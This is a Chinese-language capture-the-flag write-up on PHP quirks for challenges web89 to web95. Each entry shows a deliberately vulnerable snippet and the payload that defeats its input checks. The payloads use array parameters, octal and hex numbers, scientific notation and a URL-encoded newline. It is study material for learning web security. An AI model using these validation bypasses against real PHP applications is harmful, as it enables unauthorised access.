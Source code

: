 # php的特性

---

[TOC]

## web89

>  preg_match当检测的变量是数组的时候会报错并返回0。而intval函数当传入的变量也是数组的时候，会返回1

```php
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```

*构造payload：*`?num[]=1`

得到flag.



## 😍web90

> 注意是“===”的绕过
>
> intval($var,$base)，其中var必填，base可选，这里base=0,则表示根据var开始的数字决定使用的进制： 0x或0X开头使用十六进制，0开头使用八进制，否则使用十进制。 这里===表示类型和数值必须相等，我们可以使用4476的八进制或十六进制绕过检测。 paylod：num=010574或num=0x117c

### intval()函数

![image-20240531165527229](https://gitee.com/bx33661/image/raw/master/path/image-20240531165527229.png)

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```



### 方法

- `4476a`
- `4476.0`
- `?num=0x117c`
- `?num=010574`

---

## web91

```php
show_source(__FILE__);
include('flag.php');
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}
```

> 注意两个正则表达式的区别:/^php$/im
> ^ 表示的是开头
> $ 表示的是结尾
> i 表示的是忽略大小写
> m表示的是多行匹配
>
> 所以换一行填写php即可得到flag

*构造payload：* `/?cmd=1%0Aphp`------`%0A`是url的换行符

得到flag

## web92

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

==与上面那个类似，不过使用的是“弱比较”，我们可以使用科学计数法==

*payload：* `4476e1`



## web93

```php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(intval($num,0)==4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```

根据正则表达式我们可以判断不能继续使用科学计数法了，采用进制转化

010574，4476.1



## web94

> 综合分析：4476.0

## web95

> ?num=+010574 （空格代替+，也可以）
> ?num=%2b010574